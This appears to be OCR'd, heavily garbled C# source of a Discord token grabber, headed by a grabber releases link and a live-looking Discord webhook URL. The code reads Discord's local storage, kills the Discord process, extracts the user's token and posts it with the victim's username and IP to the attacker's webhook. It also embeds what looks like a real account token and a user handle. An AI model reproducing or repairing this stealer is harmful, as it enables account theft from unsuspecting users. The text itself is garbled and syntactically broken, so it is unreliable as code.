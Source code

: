 thub.com/NightfallGT/Mercurial-Grabber/releases
https://discord.com/api/webhooks/915293209297551391/KdUf0SEolCuHIeFHIQfzgJkIHbzjKuTGPtuPIwAr6FQPI0rel2fb5j7NO06iCqwxw2CN
staff
namespace DHTokenGrabber
{   
// token:OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU RID: 365 RVA:OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU file Offset:OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA7nGgcZJSR9WeJs5c4W7kOSh1wqU), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
}))),
try 
{
    httpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).result;
}
catch (Exception)
{
}
 }
 // Token: 0x06000008 RID: 8 RVA: 0x00002368 File Offset: 0x00000568
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/channels/912777942470365285/912781089263714304").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "´´´" + string.join("\n",new string[]
                {
                    content
                }) + "´´´"
            },
            {
                "username"
                "redex token grabber"
            },
            {
                "avatar_url",
                "https://discord.com/channels/@me/909818415525531678"

            }
        };
        httpClient.PostAsync(WebHook._hookUrl, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    // token: OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU RID:366 RVA:0x00008888 File Offset:e
    
    
    joham62655#2973
